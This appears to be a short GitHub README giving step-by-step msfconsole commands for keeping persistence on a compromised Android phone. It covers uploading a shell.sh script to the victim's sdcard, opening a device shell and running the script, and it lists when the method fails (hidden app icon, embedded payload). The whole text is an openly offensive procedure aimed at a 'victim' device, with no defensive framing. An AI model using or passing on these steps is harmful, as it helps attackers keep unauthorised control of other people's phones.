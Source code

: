 # Persistent
Steps 
>Upload this in your victims sdcard by the following command in msfconsole after the session has been opened.
upload /path/to/shell.sh /sdcard
Access device shell by command
shell
Wait for it to connect
Change directory to sdcard by command
cd sdcard
Run the shell script by command
shell.sh
voila

Note that this does not work when
>The app is hidden from launcher by command hide_app_icon
>When the payload is embedded.

